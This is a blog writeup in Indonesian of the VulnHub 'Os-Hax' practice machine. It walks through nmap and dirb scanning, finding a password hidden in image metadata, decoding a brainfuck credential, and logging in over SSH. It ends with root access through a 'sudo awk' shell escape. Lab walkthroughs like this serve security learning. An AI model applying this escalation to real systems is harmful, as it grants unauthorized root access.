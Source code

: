 ```yaml
---
title: "[VulnHub] Os-Hax WriteUp"
date: 2019-04-20T22:14:10+07:00
categories:
  - blog
tags: 
  - vulnhub
  - writeup
  - awk
---
```


## Setup 
Edit file `/etc/hosts` menjadi seperti dibawah agar static web mesin bisa berjalan.
```
#127.0.0.1      localhost
127.0.1.1       kali

# The following lines are desirable for IPv6 capable hosts
#::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

<IP_mesin> localhost
```

Untuk mencari IP mesin bisa dengan menggunakan `nmap` atau `netdiscover`

## Information Gathering
### nmap
`nmap -sV -sC -p- localhost -oN initial.nmap -v`
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 43:0e:61:74:5a:cc:e1:6b:72:39:b2:93:4e:e3:d0:81 (RSA)
|   256 43:97:64:12:1d:eb:f1:e9:8c:d1:41:6d:ed:a4:5e:9c (ECDSA)
|_  256 e6:3a:13:8a:77:84:be:08:57:d2:36:8a:18:c9:09:d6 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 5ECF6AFD7D00CCBE6B3C7AA8FD31BDE8
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Hacker_James
MAC Address: 08:00:27:E2:E3:E2 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### dirb
`dirb http://localhost /usr/share/wordlists/dirb/common.txt`
```
---- Scanning URL: http://localhost/ ----
==> DIRECTORY: http://localhost/css/
==> DIRECTORY: http://localhost/html/
==> DIRECTORY: http://localhost/img/
+ http://localhost/index.html (CODE:200|SIZE:3135)
==> DIRECTORY: http://localhost/js/
+ http://localhost/server-status (CODE:403|SIZE:274)
==> DIRECTORY: http://localhost/wordpress/
```

### wpscan
Karena server menjalankan wordpress maka kita bisa coba cari celah wordpress dengan `wpscan`.
`wpcan --url http://localhost/wordpress/`
Namun dari hasil scan dgn menggunakan `wpscan` tidak ditemukan hal yang menarik, server pake wordpress versi terbaru, tema bawaan, dan no plugin.  

Kembali ke ~~laptop~~ `dirb`, buka direktori `/img` 
!['/img'](/assets/images/Os-Hax/img.png){: img_content }
Ada file menarik yaitu `flaghost.png`, download file tsb lalu examine dengan `exiftool`.

### exiftool
Exiftool adalah software open-source berbasis perl untuk membaca, mengedit, dan memanipulasi metadata dari berbagai macam tipe file. [_exiftool.org_](https://exiftool.org/) 
>Metadata is "data that provides information about other data". In other words, it is "data about data.[_wikipedia.org_](https://en.wikipedia.org/wiki/Metadata)

```
Pixels Per Unit X               : 3780
Pixels Per Unit Y               : 3780
Pixel Units                     : meters
Make                            : passw@45
Image Size                      : 387x98
Megapixels                      : 0.038
```

ada string `passw@45` di meta `Make`. *Note*: sebelum menggunakan `exiftool` bisa coba pakai command `strings` terlebih dahulu untuk mengecek apakah ada string yang disematkan ke file gambar tsb.  

Kira-kira apakah teks `passw@45` tersebut ? :thinking: kalo password login ssh dimana usernamenya?, lalu coba ekstrak string dari gambar lain di direktori `/img` tapi ternyata *zonk* :man_facepalming:.  

Lalu entah dapet ilham darimana saya coba untuk masukin teks tersebut ke url bar dan ternyata itu clue direktori :man_facepalming: :man_facepalming: .
![passw](/assets/images/Os-Hax/passw.png){: img_content }  
Nah di dalam direktori tersebut ada file `flag2.txt` dg bahasa brainfuck.
```
i+++++ +++++ [->++ +++++ +++<] >++++ +++++ +++++ +++++ .<+++ +[->- ---<]
>--.- --.<+ +++++ [->-- ----< ]>--- -.<++ +[->+ ++<]> +++++ .<+++ ++[->
+++++ <]>.+ +.+++ +++++ .---- --.<+ ++[-> +++<] >++++ .<+++ ++++[ ->---
----< ]>-.< +++[- >---< ]>--- .+.-- --.++ +.<
```

>Brainfuck is an esoteric programming language created in 1993 by Urban Müller, and is notable for its extreme minimalism. The language consists of only eight simple commands and an instruction pointer. (_wikipedia.org_)[https://en.wikipedia.org/wiki/Brainfuck]

Next copas isi `flag2.txt` ke brainfuck interpreter macam (`copy.sh`)[https://copy.sh/brainfuck/]. Jalankan, dan kita dapat outputnya.. `web:Hacker@4514` 

## Exploitation
### User Flag
`ssh` dengan username dan password diatas lalu kita dapat flag user.
```
web@jax:~$ id
uid=1001(web) gid=1000(uname-a) groups=1000(uname-a)
web@jax:~$ ls
flag3.txt
web@jax:~$ cat flag3.txt 
   ______          ______          ____                 __ 
  / ____/____     /_  __/____     / __ \ ____   ____   / /_
 / / __ / __ \     / /  / __ \   / /_/ // __ \ / __ \ / __/
/ /_/ // /_/ /    / /  / /_/ /  / _, _// /_/ // /_/ // /_  
\____/ \____/    /_/   \____/  /_/ |_| \____/ \____/ \__/  
                                                           

MD5-HASH : 40740735d446c27cd551f890030f7c75
```
Next adalah dengan menjalankan [linenum.sh](https://github.com/rebootuser/LinEnum/) di direktori `/tmp`.

```
[+] We can sudo without supplying a password!
Matching Defaults entries for web on jax:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User web may run the following commands on jax:
    (root) NOPASSWD: /usr/bin/awk


[+] Possible sudo pwnage!
/usr/bin/awk
```
Dari hasil enumerasi diatas kita menemukan entri `sudoers` yang memungkinkan kita (user `web`) untuk menjalankan perintah `awk` secara `sudo` tanpa perlu memasukkan password.  
Hal itu dapat ditunjukkan dengan membuka '/etc/sudoers' dan melihat user privilege specification untuk user `web`.
`web     ALL= (root) NOPASSWD: /usr/bin/awk` 
Nah berhubung saya gak paham cara penggunaan `awk`, site [gtfobins](https://gtfobins.github.io/gtfobins/awk/) menjadi penyelamat.
`sudo awk 'BEGIN {system("/bin/sh")}'`
Dan kita dapat akses root :smile:
![final](/assets/images/Os-Hax/final.png){: .img_content }

<hr>

Referensi: 
[https://linux.die.net/man/5/sudoers](https://linux.die.net/man/5/sudoers)  
[https://gtfobins.github.io](https://gtfobins.github.io)
